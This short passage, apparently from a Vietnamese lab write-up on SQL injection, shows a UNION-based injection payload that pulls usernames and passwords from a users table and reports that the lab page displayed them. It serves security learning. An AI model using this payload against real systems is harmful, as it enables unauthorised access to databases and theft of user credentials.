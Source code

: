 ![alt text](image-5.png)

Tiếp tục thử với bài lab lấy dữ liệu với UNION attack:
Ta thử với 
```sql
'UNION SELECT username, password FROM users--
```
Ta được trang web có thông tin tài khoản, mật khẩu người dùng trong bảng users:
![alt text](image-6.png)